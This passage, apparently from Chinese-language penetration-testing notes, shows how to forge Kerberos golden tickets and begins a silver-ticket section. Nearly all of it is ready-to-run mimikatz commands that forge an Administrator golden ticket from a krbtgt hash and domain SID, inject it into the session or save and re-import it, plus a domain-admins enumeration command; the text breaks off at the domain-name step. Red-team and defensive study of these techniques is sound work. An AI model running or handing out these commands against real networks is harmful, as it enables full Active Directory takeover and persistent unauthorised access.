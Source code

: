 #### 2.2.2. 制作黄金票据

所需信息

```
work.com # 域FQDN
administrator # 管理员账户
239ad56d36d09131a3584cdc25761616 # krbtgt用户哈希
S-1-5-21-3644623682-4019055222-2476599189 # 域SID
```

制作票据

```batch
# 列出当前会话中缓存的 Kerberos 票据
mimikatz "kerberos::list" exit
# 清空当前Kerberos 票据
mimikatz "kerberos::purge" exit
# 制作黄金票据
mimikatz "kerberos::golden /user:Administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /krbtgt:239ad56d36d09131a3584cdc25761616 /ptt" exit
```

生成黄金票据文件

```batch
mimikatz "kerberos::golden /user:Administrator /domain:work.com /sid:S-1-5-21-3644623682-4019055222-2476599189 /krbtgt:239ad56d36d09131a3584cdc25761616 /ticket:Administrator.kiribi" exit
#使用时导入
mimikatz "kerberos::ptt Administrator.kiribi" exit
```

### 2.3. 白银票据制作

**所需参数：**

- /user：目标用户名
- /domain：目标域
- sid：域 SID
- /rc4：服务账户 NTLM 哈希
- /service：目标服务 SPN
- /target：目标主机
- /ptt：将票据加载到票据缓存中

#### 2.3.1. 获取所需参数

##### 2.3.1.1. 用户名

```batch
# 查看域内管理员组成员
net group "domain admins" /domain
```

得到 `administrator`

##### 2.3.1.2. 域名
